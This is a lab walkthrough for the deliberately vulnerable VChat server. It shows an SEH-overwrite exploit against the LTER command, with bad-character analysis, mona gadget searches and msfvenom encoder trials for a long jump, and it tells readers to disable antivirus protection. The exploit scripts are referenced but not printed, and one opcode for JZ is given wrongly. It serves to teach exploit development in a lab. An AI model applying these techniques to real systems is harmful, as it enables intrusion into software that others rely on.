

# VChat LTER Exploit: Character Restrictions
> [!NOTE]
> - The following exploit and its procedures are based on an original [Blog](https://fluidattacks.com/blog/vulnserver-lter-seh/) from fluid attacks. The manual encoding section requires modifications depending on the Windows version you are using.
> - Disable Windows *Real-time protection* at *Virus & threat protection* -> *Virus & threat protection settings*.
> - Don't copy the *$* sign when copying and pasting a command in this tutorial.
> - Offsets may vary depending on what version of VChat was compiled, the version of the compiler used, and any compiler flags applied during the compilation process.

___

Unlike in previous exploits, the main hurdle will not be space limitations on the stack, but the characters we are able to use in the payload sent to exploit the VChat server. At first glance, this may not seem to be a big issue; however, our shellcode that has been compiled into machine code is represented and injected into the target process as a stream of characters. Any limitation on the valid inputs to a program may limit not only the instructions available to us but also the constant values we may use in the shell code.

During this exploit we will use techniques to overcome character restrictions on the input we provide to the target application, these limitations are commonly referred to as "Bad Characters" when exploiting remote processes over a TCP or UDP connections. In this case our limitations are imposed not only by the fact our communications are interpreted as strings, and the characteristics of the functions used to handle them (*strncpy* and *strcpy*). However, the `LTER` function also manipulates the strings it receives; in this way, we need to make more explicit use of encoders to ensure our payload is preserved and can successfully execute on the target system without being corrupted by the LTER command manipulations.

Encoders modify a given binary to be encoded as some other set of bytes that can be transformed back into their original state. A decoding function is then appended to our transformed shellcode, which will reconstruct the original binary that we originally used as input to the encoder through some methods.

> [!NOTE]
>  Please set up the Windows and Linux systems as described in [SystemSetup](./SystemSetup/README.md)!
>
> The Final shellcode in this exploit is not always reliable in its execution. The Multi-Stage method should not be used, the DLL sideloading has proven to work reliably.
## VChat Setup and Configuration
This section covers the compilation process and use of the VChat Server. We include instructions for both the original VChat code, which was compiled with MinGW and GCC on Windows, and the newly modified code, which can be compiled with the Visual Studio C++ compiler.

### Visual Studio
<details>
	
1. Open the [Visual Studio project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/DLL/Essfun) for the *essfunc* DLL.
2. Build the project; as this contains inline assembly, the target DLL file must be compiled as a x86 DLL (32-bits).
3. Copy the Resulting DLL from the *Debug* folder in the [Essfunc Project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/DLL/Essfun/Debug) into the *Debug* folder in the [VChat Project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/EXE/VChat/Debug).

4. Open the [Visual Studio project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/EXE/VChat) for the *VChat* EXE.
5. Build the Project, our executable will be in the *Debug* folder. You can then launch the executable!

</details>

### Mingw/GCC
<details>	

Compile VChat and its dependencies if they have not already been compiled. This is done with mingw.

1. Create the essfunc object File.
	```powershell
	# Compile Essfunc Object file
	$ gcc.exe -c essfunc.c
	```
2. Create the [DLL](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library) containing functions that will be used by the VChat.
	```powershell
	# Create a DLL with a static (preferred) base address of 0x62500000
	$ gcc.exe -shared -o essfunc.dll -Wl,--out-implib=libessfunc.a -Wl,--image-base=0x62500000 essfunc.o
	```
      * ```-shared -o essfunc.dll```: We create a DLL "essfunc.dll", these are equivalent to the [shared library](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html) in Linux.
      * ```-Wl,--out-implib=libessfunc.a```: We tell the linker to generate an import library "libessfunc.a" [2].
      * ```-Wl,--image-base=0x62500000```: We specify the [Base Address](https://learn.microsoft.com/en-us/cpp/build/reference/base-base-address?view=msvc-170) as ```0x62500000``` [3].
      * ```essfunc.o```: We build the DLL based on the object file "essfunc.o".
3. Compile the VChat application.
	```powershell
	# Compile and Link VChat
	$ gcc.exe vchat.c -o vchat.exe -lws2_32 ./libessfunc.a
	```
      * ```vchat.c```: The source file is "vchat.c".
      * ```-o vchat.exe```: The output file will be the executable "vchat.exe".
      * ```-lws2_32 ./libessfunc.a```: Link the executable against the import library "libessfunc.a", enabling it to use the DLL "essfunc.dll".

</details>

## Exploit Process
The following sections cover the process that should (Or may) be followed when performing this exploitation on the VChat application. It should be noted that the [**Dynamic Analysis**](#dynamic-analysis) section makes certain assumptions, such as having access to the application binary that may not be realistic in cases where you are exploiting remote servers; however, the enumeration and exploitation of generic Windows, and Linux servers to get the binary from a remote server falls outside of the scope of this document.

> [!IMPORTANT]
> The offsets and addresses shown in the following screenshots may differ from those used in the python and ruby code in this repository. This is because the offsets change slightly between the Windows 10 version of VChat compiled with GCC and the Windows 11 version compiled with the Visual Studio compiler.
### Information Collecting
<details>
	
We want to understand the VChat program and how it works in order to exploit it effectively. Before diving into the specifics of how VChat behaves, the most important information for us is the IP address of the Windows VM that runs VChat and the port number that VChat runs on.

1. **Windows** Launch the VChat application.
	* Click on the Icon in File Explorer when it is in the same directory as the essfunc DLL.
2. (Optional) **Linux**: Run NMap.
	```sh
	# Replace the <IP> with the IP of the machine.
	$ nmap -A <IP>
	```
   * We can think of the `-A` flag as the term aggressive as it does more than the normal scans, and is often easily detected.
   * This scan will also attempt to determine the version of the applications; this means when it encounters a non-standard application such as *VChat*, it can take 30 seconds to 1.5 minutes, depending on the speed of the systems involved, to finish scanning. You may find the scan ```nmap <IP>``` without any flags to be quicker!
   * Example results are shown below:

		

3. **Linux**: As we can see the port ```9999``` is open, we can try accessing it using **Telnet** to send unencrypted communications.
	```
	$ telnet <VChat-IP> <Port>

	# Example
	# telnet 127.0.0.1 9999
	```
   * Once you have connected, try running the ```HELP``` command, this will give us some information regarding the available commands the server processes and the arguments they take. This provides us a starting point for our [*fuzzing*](https://owasp.org/www-community/Fuzzing) work.
   * Exit with `CTL+]`.
   * An example is shown below.

		

4. **Linux**: We can try a few inputs to the *LTER* command, and see if we can get any information. Simply type *LTER* followed by some additional input.<!-- as shown below -->

	<!--  -->

	* Now, trying every possible combinations of strings would get quite tiresome, so we can use the technique of *fuzzing* to automate this process as discussed later in the exploitation section.
	* In this case we will do some fuzzing to keep the exploit sections relatively consistent, but as you can see we know crashing this command will not take much!

</details>
	
### Dynamic Analysis
This phase of exploitation involves launching the target application or binary and examining its behavior based on the input we provide. We can do this using automated fuzzing tools or manually generated input.

The actions the *LTER* command takes on the given input are slightly different compared to those of the other functions that in the VChat/Vulnserver application. This means our Dynamic Analysis phase will be slightly longer! However the end goal is still to produce an exploit string in the format of `padding-bytes|address-to-overwrite-return-address|shell-code`, where | means concatenation.

#### Launch VChat
<details>	

1. Open Immunity Debugger.

	

    * Note that you may need to launch it as the *Administrator* this is done by right-clicking the icon found in the Windows search bar or on the desktop as shown below:

	

2. Attach VChat: There are two options!
   1. (Optional) When the VChat is already Running.
        1. Click File -> Attach.

			

		2. Select VChat.

			

   2. When VChat is not already Running -- This is the most reliable option!
        1. Click File -> Open, Navigate to VChat.

			

        2. Click Debug -> Run.

			

        3. Notice that a Terminal was opened when you clicked "Open". Now, you should see the program output in the terminal opened by Immunity Debugger.

			
3. Ensure that the execution in not paused, click the red arrow (Top Left).

	

</details>	

#### Fuzzing
We use [boofuzz](https://boofuzz.readthedocs.io/en/stable/index.html) for fuzzing, in which methodologically generated random data is injected into the target. It is hoped that the random data will cause the target to perform erratically, for example, crash. If that happens, bugs are found in the target.

1. Open a terminal on the **Kali Linux Machine**.

Go into the boofuzz folder
```
┌──(kali㉿kali)-[~]
└─$ cd ~/boofuzz
```

Start a boofuzz virtual environment so that it does not interfere with other Pyhting settings.
```                                                                                                                                          
┌──(kali㉿kali)-[~/boofuzz]
└─$ source env/bin/activate
                                                                                                                                          
┌──(env)─(kali㉿kali)-[~/boofuzz]
└─$ 
```

2. Run the fuzzing script [boofuzz-vchat-LTER.py](SourceCode/boofuzz-vchat-LTER.py)

```
python boofuzz-vchat-LTER.py
```
*boofuzz-vchat-LTER.py* works as follows: builds a connection to the target, creates a message template with some fixed fields and a fuzzable field that will change, and then begins to inject the random data case by case into the target. One test case refers to one random message injected into the target.

3. Eventually vchat will crash. Immunity Debugger gives the string that crashes vchat. Find the string in the fuzzing log file. I do feel it is a bit hard to identify which string actually crashes VChat. It appears even after VChat crashes, its port is still open, maybe because it takes time for the OS to clean the crashed VChat.

6. We can see at the bottom of *Immunity Debugger* that VChat crashed due to a memory access violation. This means we may have overwritten the return address stored on the stack, leading to the EIP being loaded with an invalid address or overwrote a SEH frame. This error could have also been caused if we overwrote a local pointer that is then dereferenced... However, we know from previous exploits on VChat that this is unlikely.

	

7. We can look at the comparison of the Register values before and after the fuzzing in Immunity Debugger. Here, we can see the EIP has **not been overwritten** with a series of `A`s (`0x41`). This means we likely overwrote a SEH frame on the stack!

 <details>
	 
	* Before:

		

	* After:

		

      * The best way to reproduce this is to use [exploit0.py](./SourceCode/exploit0.py).

</details>

9. We can confirm that this is a SEH frame overwrite by looking at the SEH records after the overflow occurred.

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/28529e3d-62b9-4ea9-90e2-d4c98d6b3073

	1. Exploit the VChat server (If it has not already been done) with [exploit0.py](./SourceCode/exploit0.py).
	2. Open the SEH Chain records.

		

	3. See that a SEH record has been overwritten with the series of `A`s!

		

#### Further Analysis
1. Generate a Cyclic Pattern. We do this so we can tell *where exactly* the SEH record is located on the stack. We can use the *Metasploit* script [pattern_create.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb) to generate this string. By analyzing the values stored in the registerc(?) which will be a subset of the generated string after a crash, we can tell where in memory the SEH record is stored.
	```
	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
	```
	* This will allow us to inject a new address at that location where the SEH record is overwritten.
2. Modify your exploit code to reflect the [exploit1.py](./SourceCode/exploit1.py) script and run it to inject a cyclic pattern into the Vulnserver program's stack and observe the SEH records.

	

3. Notice that the EIP register reads `75FB6819` and remains unchanged, but we can see in this case the SEH record's handler was overwritten with `396D4538`. We can use the [pattern_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) script to determine the address offset based on our search string's position in the pattern.
	```
	$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 396D4538
	```
	* This will return an offset as shown below; In this case, the offset is `3506`.

	

4. Now modify the exploit program to reflect the code in the [exploit2.py](./SourceCode/exploit2.py) script and run the exploit against VChat. We do this to validate that we have the correct offset for the SEH Record!

	

	* See that the SEH handler is a series of the value `42` that is a series of Bs. This tells us that we can write an address to that location in order to change the control flow of the program when an exception occurs.
	* Note: Sometimes, it took a few runs for this to work and update on the Immunity debugger.
5. Now let's pass the exception to the program and see what happens and how this affects the stack; we used the keybind `Shift+F7` (This keybind should be displayed at the bottom of the screen).

	

    * We can see that the the `ESP` register (Containing the stack pointer) holds the address of `00EDEDC8`. An address pointing to our buffer is stored at `00EDEDD0`. We need to traverse 8 bytes before we reach a segment of the stack we control.

6. We can use the fact that our extra data is on the stack and `pop` the extra data off into some register. The exact register does not really matter, as we simply want to remove it from the stack. We can use `mona.py` to find a gadget that pops two elements off the stack (8-bytes as we are running a 32-bit program!), which places the stack pointer `ESP` in the correct position for us to start executing code we inject into our buffer. Use the command `!mona seh -cp nonull -cm safeseh=off -o` in Immunity Debugger as shown below.

	

      * The `seh` command of *mona.py* finds gadgets to remove the extra 8-bytes before our buffer.
      * The `-cp nonull` flag tells *mona.py* to ignore null values.
      * The `-cm safeseh=off` flag tells *mona.py* to ignore safeseh modules (The program was not compiled for safe SEH).
      * The `-o` flag tells *mona.py* to ignore OS modules.

	

      * We can see there are quite several options, any one of them should work. For the examples we will be using the address `625016BF`. Here we chose this address to exhibit the Bad Character behavior of the LTER command.
	  * *Note*: If you do not see any output, it may be hidden behind one of the Immunity Debugger windows.

7. Modify the exploit to reflect the [exploit3.py](./SourceCode/exploit3.py) script to verify that this SEH overwrite works. We do this to ensure the SEH Gadgets are properly executing and transitioning the flow of control.

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/56abcbb0-42fc-433f-8730-5c55754df014

   1. Click on the black button highlighted below, and enter the address we decided in the previous step.

		

   2. Set a breakpoint at the desired address (right-click).

		

   3. Run the [exploit3.py](./SourceCode/exploit3.py) program till an overflow occurs (See SEH record change).

		

         * Notice that the SEH record's handler now points to an essfunc.dll address!
		 * However, this is not the address we passed in `625016BF`. It is `62501640`!

	4. Once the overflow occurs pass the exception using `Shift+F7`, we will see that we do **not** hit our breakpoint.

		

#### Finding Bad Characters
As introduced at the start of this walkthrough, some programs disallow or modify various inputs. This could be done for a practical purpose that allows the program to function as expected, or it could be done intentionally by the programmers to protect the program from exploitation. Common examples include [input sanitization](https://attack.mitre.org/mitigations/M0818/) done by most websites to prevent directory/[path traversals](https://owasp.org/www-community/attacks/Path_Traversal).

> [!NOTE]
>  You can use the command `!mona config -set workingfolder c:\logs\E6` to set the folder the output of our `mona.py` commands will be stored in so it is easier to locate in the future.

1. At this time we do not know what characters are considered "bad" as all of our previous exploits confirmed and used the full set of ASCII characters, which range in value from 0 to 127 (`0x00` - `0x7f`), the ANSI character set refers to 8-bit characters and consists of the ASCII charters (0 - 127) with additional characters in the range of values 128 - 255.

	

	* This ASCII table is from [Wikipedia](https://simple.wikipedia.org/wiki/File:ASCII-Table-wide.svg), there are many other alternatives that can be found. You can view external resources such as those from [Microsoft](https://learn.microsoft.com/en-us/host-integration-server/core/character-tables2) to examine the ANSI characters.

2. As the range of possible ANSI character values is limited 0 - 256 (`0x00` - `0xFF`) as they consist of 1 byte (8 bits) we can try sending all possible ANSI charters to the *LTER* VChat command and see how it reacts. If we were handling Unicode characters, this becomes less feasible due to the number of possible inputs (Unicode characters are up to 4 bytes or 32-bits!). There are two methods for generating the set of values we will be sending to the VChat server.

	1. Using [mona.py](https://github.com/corelan/mona) and Immunity Debugger, we can with the command `!mona bytearray` to generate all possible ANSI character values, however, we may want to exclude known bad characters such as the null terminator (`0x00`), line feed (`0x0A`), and carriage return (`0x0D`) which we already know cannot be used. This can be done with the command `!mona bytearray -cpb '\x00\x0a\x0d'` as shown below:

		

		* For ease of access, you can open a file `bytearray.txt` in the folder `C:\Users\Malware Analysis\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger\bytearray.txt`. If you used the command `!mona config -set workingfolder c:\logs\E6` to set the folder our output will be stored in you should check that one!
		* Code using this method is provided in [exploit4a.py](./SourceCode/exploit4a.py).
	2. The second method is inline character generation in the exploit script. There are many ways to do this generation, but two examples are provided in [exploit4b.py](./SourceCode/exploit4b.py) and [exploit4c.py](./SourceCode/exploit4c.py) from the original blog, which uses a Python one-liner.

3. Run any one of the [exploit4a.py](./SourceCode/exploit4a.py), [exploit4b.py](./SourceCode/exploit4b.py) or [exploit4c.py](./SourceCode/exploit4c.py) programs. It should be noted that additional characters are added to the payload to crash the VChat server, allowing us to analyze the memory of the program at the time of the crash to see which.

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/50c38f38-0ff7-46eb-9f58-9fd80fcabd00

4. Ensure that Immunity Debugger's Stack viewer shows the ASCII dump so that we can see that our byte array has been written to the stack!

	

5. Right-click the `ECX` or `EBP` registers and select *Follow in Dump*, as shown below. This will allow us to follow the byte array we have sent more easily, as the stack view does not allow us to see much of it at the same time.

	

	* We can see that the values from `0x01` - `0x7F` have successfully been written to the stack; after this the input seems to loop back around and the pattern repeats.

	

6. `mona.py` again provides us with a better method to view and summerize this information! We can use the following command:

	```
	!mona cmp -f C:\Users\Malware Analysis\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger\bytearray.bin -a <memory address of array>
	```
	* This compares the contents of the bytearray we had generated, and the contents starting at an address we specify.
		* `!mona cmp`: Mona comparison function.
		* `-f`: Compare the contents of a file (You will need to modify this to match the file's location on your computer!).
		* `-a`: Compare the contents of a memory address.

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/0aa8ddb2-ec19-4a56-abec-80008a490a9c

	1. Get the array's starting address. The easiest way to do this is to read the address off the stack view pane. We can see from the memory dump (and stack ASCII dump) that our character array starts 2 bytes in from the stating address.

		

		* This means from the stack address `0107F21C` we can add 2 in order to get the starting address of `0107F21E` in this case.

	2. Run the `!mona cmp -f C:\Users\Malware Analysis\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger\bytearray.bin -a <Address>` command!

		

		```
		0BADF00D  [+] C:\Users\Malware Analysis\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger\bytearray.bin has been recognized as RAW bytes.
		0BADF00D  [+] Fetched 253 bytes successfully from C:\Users\Malware Analysis\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger\bytearray.bin
		0BADF00D      - Comparing 1 location(s)
		0BADF00D  Comparing bytes from file with memory :
		0107F21E  [+] Comparing with memory at location : 0x0107f21e (Stack)
		0107F21E  Only 125 original bytes of 'normal' code found.
		0107F21E      ,-----------------------------------------------.
		0107F21E      | Comparison results:                           |
		0107F21E      |-----------------------------------------------|
		0107F21E    0 |01 02 03 04 05 06 07 08 09 0b 0c 0e 0f 10 11 12| File
		0107F21E      |                                               | Memory
		0107F21E   10 |13 14 15 16 17 18 19 1a 1b 1c 1d 1e 1f 20 21 22| File
		0107F21E      |                                               | Memory
		0107F21E   20 |23 24 25 26 27 28 29 2a 2b 2c 2d 2e 2f 30 31 32| File
		0107F21E      |                                               | Memory
		0107F21E   30 |33 34 35 36 37 38 39 3a 3b 3c 3d 3e 3f 40 41 42| File
		0107F21E      |                                               | Memory
		0107F21E   40 |43 44 45 46 47 48 49 4a 4b 4c 4d 4e 4f 50 51 52| File
		0107F21E      |                                               | Memory
		0107F21E   50 |53 54 55 56 57 58 59 5a 5b 5c 5d 5e 5f 60 61 62| File
		0107F21E      |                                               | Memory
		0107F21E   60 |63 64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72| File
		0107F21E      |                                               | Memory
		0107F21E   70 |73 74 75 76 77 78 79 7a 7b 7c 7d 7e 7f 80 81 82| File
		0107F21E      |                                       01 02 03| Memory
		0107F21E   80 |83 84 85 86 87 88 89 8a 8b 8c 8d 8e 8f 90 91 92| File
		0107F21E      |04 05 06 07 08 09 0a 0b 0c 0d 0e 0f 10 11 12 13| Memory
		0107F21E   90 |93 94 95 96 97 98 99 9a 9b 9c 9d 9e 9f a0 a1 a2| File
		0107F21E      |14 15 16 17 18 19 1a 1b 1c 1d 1e 1f 20 21 22 23| Memory
		0107F21E   a0 |a3 a4 a5 a6 a7 a8 a9 aa ab ac ad ae af b0 b1 b2| File
		0107F21E      |24 25 26 27 28 29 2a 2b 2c 2d 2e 2f 30 31 32 33| Memory
		0107F21E   b0 |b3 b4 b5 b6 b7 b8 b9 ba bb bc bd be bf c0 c1 c2| File
		0107F21E      |34 35 36 37 38 39 3a 3b 3c 3d 3e 3f 40 41 42 43| Memory
		0107F21E   c0 |c3 c4 c5 c6 c7 c8 c9 ca cb cc cd ce cf d0 d1 d2| File
		0107F21E      |44 45 46 47 48 49 4a 4b 4c 4d 4e 4f 50 51 52 53| Memory
		0107F21E   d0 |d3 d4 d5 d6 d7 d8 d9 da db dc dd de df e0 e1 e2| File
		0107F21E      |54 55 56 57 58 59 5a 5b 5c 5d 5e 5f 60 61 62 63| Memory
		0107F21E   e0 |e3 e4 e5 e6 e7 e8 e9 ea eb ec ed ee ef f0 f1 f2| File
		0107F21E      |64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72 73| Memory
		0107F21E   f0 |f3 f4 f5 f6 f7 f8 f9 fa fb fc fd fe ff         | File
		0107F21E      |74 75 76 77 78 79 7a 7b 7c 7d 7e 7f 80         | Memory
		0107F21E      `-----------------------------------------------'
		0107F21E
		0107F21E                  | File      | Memory    | Note
		0107F21E  -----------------------------------------------------
		0107F21E  0   0   125 125 | 01 ... 7f | 01 ... 7f | unmodified!
		0107F21E  -----------------------------------------------------
		0107F21E  125 125 128 128 | 80 ... ff | 01 ... 80 | corrupted
		0107F21E
		0107F21E  Possibly bad chars: 80
		0107F21E  Bytes omitted from input: 00 0a 0d
		```
7. We can now see that starting at the value `0x80`, the contents of our file generated with `!mona bytearray` differ from the contents in memory.
	```
		0107F21E   70 |73 74 75 76 77 78 79 7a 7b 7c 7d 7e 7f 80 81 82| File
		0107F21E      |                                       01 02 03| Memory
	```
	* This means our valid characters are in the range `0x00` - `0x7F`. This is, of course, excluding the known bad characters that are the null terminator (`0x00`), line feed (`0x0A`), and carriage return (`0x0D`).

#### SEH Handler
1. The first thing we need to do is fix the address we use to overwrite the SEH handler. We can again use `mona.py` to find *seh* gadgets and filter out those that contain bad characters.

	```
	!mona seh -cm safeseh=off -cp nonull,ascii -o -cpb '\x0a\x0d'
	```
	* `seh`: Locate seh gadgets `pop pop ret` to enter into our controller region of the stack from a SEH exploit.
	* `-cm safeseh=off`: Exclude safeseh modules.
	* `-cp nonull,ascii`: Only show pointers (Addresses) that do not contain null characters (`0x00`) and are ASCII values (`0x00` - `0x7F`).
	* `-o`: Ignore OS modules.
	* `-cpb '\x0a\x0d'`: Specify bad characters that disqualify a gadget from being included in the results. We can expand this to include the range `0x80` - `0xFF`, but we should be able to manually verify this.

	

	* In this case, we have 17 pointers down from the previous 34.

2. Modify your exploit code to reflect [exploit5.py](./SourceCode/exploit5.py) and run it against VChat to verify that this works. We do this to ensure we can utilize the SEH gadget with the character restrictions in order to exploit shellcode on the stack.

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/9445880b-f509-4e3c-9b2a-3329cf40f6bd

   1. Click on the black button highlighted below and enter the address we decided on in the previous step.

		

   2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`.

		

   3. Run the [exploit5.py](./SourceCode/exploit5.py) program till an overflow occurs (See SEH record change).

		

         * Notice that we have now hit the breakpoint at `6250184E`!

	4. Once we click run and get VChat to crash, we can examine the SEH chain and see the overwritten SEH handler.

		

	5. Once we pass the exception using `Shift + F7`, we can step through the program and see we have arrived back onto the stack near the buffer we control, but we have arrived 4-bytes ahead of the address we used to overwrite the SEH handler!

		

#### Short Jump
1. Unlike in the [GMON_SEH](https://github.com/DaintyJet/VChat_GMON_SEH) exploit, we cannot use a short jump directly. As shown below, the short jump instruction contains the character with the value `0xEB` as part of the operation code. This means we cannot use it, as this is outside of the range of valid characters `0x00` - `0x7F` and will be turned into `0x6C`, which is no longer our intended instruction.

	

2. There are a number of possible [conditional jumps](https://riptutorial.com/x86/example/20470/conditional-jumps) in the x86 architecture. These use a series of status flags set by the CPU during some previous instruction such as [*test*](https://www.felixcloutier.com/x86/test). There are a few possible jumps we can use to perform the equivalent of a short jump, but the easiest are those that only have two possible outcomes.
	1. We can use the *jump zero* `jz <ADDR>` instruction to perform a short jump as this instruction does not contain any bad characters. To do this, we can modify the exploit program to reflect [exploit6.py](./SourceCode/exploit6.py); we can generate the machine code using the program `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` on the Kali Linux machine.
		* `JNZ SHORT +0x10 (\x75\x08)`: If the Zero status flag is equal to 0 perform a short jump ahead `0x10` bytes.
		* `JZ SHORT +0x08 (\x75\x06)`: If the Zero status flag is equal to 1 perform a short jump ahead `0x08` bytes.

	

	2. Now we can check if this exploit works and preserves the SEH chain. We do this by once again setting a breakpoint and running the [exploit6.py](./SourceCode/exploit6.py) program as we did for [exploit5.py](./SourceCode/exploit5.py) in the second step of the [SEH Handler](#seh-handler) section. This is done so we can verify that the conditional jump is working correctly.

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/6a5b6fa3-0a6a-4a59-9b39-e860f33072dc


#### Long Jump and Encoding
1. Now, we have jumped onto the part of the buffer that contains our `C`s, and this region only has 41 bytes of space available, as this is not much space we will perform a *Long Jump* in order to leverage the larger region of space located earlier in the buffer. In the [GMON_SEH](https://github.com/DaintyJet/VChat_GMON_SEH) exploit, we performed a long jump as shown below:

	

	* Notice that the long jump operation code (`E9 43F2FFFF`) begins with `0xE9`, again this is outside of the allowed range of characters in `0x00` to `0x7F`, so we cannot directly use the long jump. We need to try encoding it!

2. For the encoder to work, we will need to generate some files containing the resulting machine code's binary. This can be done in 2 different ways.

	1. Modify and use the program [generate_shell.py](./SourceCode/generate_shell.py) to generate both files.
	2. Use the Python interpreter directly to generate the files.
		* ` python -c "buff= b'\xe9\x43\xf2\xff\xff'; fd = open('jmp_l.bin', 'wb'); fd.write(buff)"`: Generate the long jump binary.
		* `python -c "buff= b'\xeb\x80'; fd = open('jmp_s.bin', 'wb'); fd.write(buff)"`: Generate the short jump binary.
3. Now we can try using preexisting encoders, some easy one to try are provided by [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html). We omit the lengthy bad character list since the main challenge at this stage is the space we have to work with, which is what this example attempts to point out!

	```
	msfvenom -p - -a x86 --platform windows -e <Encoder> -o /dev/null
	```
	*  `msfvenom`: The MSFVenom command.
	* `-p -`: Specify the payload as something taken from stdin (Terminal input).
	* `-a x86`: Specify the target architecture as `x86`.
	* `--platform windows`: Specify the target platform as Windows.
	* `-e <Encoder>`: Specify the encoder to use, we can list all possible encoders with `msfvenom -l encoders`.
	* `-o /dev/null`: Specify the output file, since we just want to see the size of the resulting shellcode we do not want to save it (Write to /dev/null).

	1. Try [`x86/add_sub`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/add_sub) encoder on the long jump `jmp_l.bin`. This performs a series of additions and subtractions to encode the shellcode for transmission and recover the original instructions in memory at runtime.
		```
		cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/add_sub -o /dev/null
		```
		* This results in the following output. Notice that it fails! We have a 5-byte instruction that is not divisible by 4! If you would like to try, this can be padded with NOP instructions!
		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/add_sub -o /dev/null
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/add_sub
		x86/add_sub failed with Shellcode size must be divisible by 4, try nop padding.
		Error: No Encoder Succeeded
		```
	2. Try [`x86/alpha_mixed`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/alpha_mixed) encoder on the long jump `jmp_l.bin`. This encodes the payload as a series of mixed case (Upper/Lower) alphanumeric characters, which will then be recovered from the original instructions in the target machine's memory at runtime.

		```
		cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/alpha_mixed -o /dev/null
		```

		* This results in the following output: We cannot use this as we do not have the required space!

		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/alpha_mixed -o /dev/null
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/alpha_mixed
		x86/alpha_mixed succeeded with size 71 (iteration=0)
		x86/alpha_mixed chosen with final size 71
		Payload size: 71 bytes
		Saved as: /dev/null
		```

	3. Try [`x86/opt_sub`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/opt_sub) encoder on the long jump `jmp_l.bin`. This encodes the payload as a series of subtraction instructions and will write the encoded value to the ESP.

		```
		cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub -o /dev/null
		```

		* This results in the following output: We cannot use this as we do not have the required space!

		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub -o /dev/null
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/opt_sub
		x86/opt_sub succeeded with size 61 (iteration=0)
		x86/opt_sub chosen with final size 61
		Payload size: 61 bytes
		Saved as: /dev/null
		```
	3. Try [`x86/shikata_ga_nai`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/shikata_ga_nai) encoder on the long jump `jmp_l.bin`. This complicated encoding scheme generates a payload with a polymorphic XOR additive feedback encoder.

		```
		cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -o /dev/null
		```
		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -o /dev/null
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
		x86/shikata_ga_nai succeeded with size 32 (iteration=0)
		x86/shikata_ga_nai chosen with final size 32
		Payload size: 32 bytes
		Saved as: /dev/null
		```

		* The results shown above show us we can use this in the exploit. We could use it by modifying the command to output the shellcode in the format expected by Python, as shown below! However, we have not used the complete list of bad characters, so this will lead to a crashed program if used!

